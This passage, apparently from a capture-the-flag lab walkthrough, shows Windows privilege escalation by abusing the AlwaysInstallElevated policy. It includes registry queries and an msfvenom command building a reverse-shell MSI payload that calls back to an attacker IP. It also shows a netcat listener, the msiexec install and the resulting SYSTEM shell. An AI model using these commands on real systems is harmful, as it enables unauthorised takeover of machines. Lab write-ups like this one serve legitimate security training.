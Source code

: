 We can use tools such as PowerUp or JAWS to try to find some low-hanging fruit in the system's configuration. These tools reveal a policy that will install MSI packages as SYSTEM.

C:\xampp\htdocs\shenzi>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\xampp\htdocs\shenzi>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\xampp\htdocs\shenzi>

AlwaysInstallElevated MSI Abuse

We can abuse this and escalate our privileges on the target by generating a malicious MSI package that will give us a reverse shell as the NT AUTHORITY\SYSTEM user.

To do this, we'll first generate an MSI package using msfvenom.

kali@kali~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.65 LPORT=445 -f msi > notavirus.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes

We can use our still-active meterpreter shell to upload the MSI package to the target.

meterpreter > upload notavirus.msi
[*] uploading  : notavirus.msi -> notavirus.msi
[*] Uploaded -1.00 B of 156.00 KiB (-0.0%): notavirus.msi -> notavirus.msi
[*] uploaded   : notavirus.msi -> notavirus.msi
meterpreter > 

Let's run another Netcat listener to catch our reverse shell.

kali@kali~# sudo nc -lvp 445  
listening on [any] 445 ...

Finally, we can install our malicious MSI package on the target using msiexec.

C:\xampp\htdocs\shenzi>msiexec /i "C:\xampp\htdocs\shenzi\notavirus.msi"
msiexec /i "C:\xampp\htdocs\shenzi\notavirus.msi"

C:\xampp\htdocs\shenzi>

Once we've done this, our listener indicates that we have received a reverse shell with NT AUTHORITY\SYSTEM level privileges.

kali@kali~# sudo nc -lvp 445  
listening on [any] 445 ...
192.168.65.55: inverse host lookup failed: Unknown host
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.55] 49815
Microsoft Windows [Version 10.0.18363.836]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

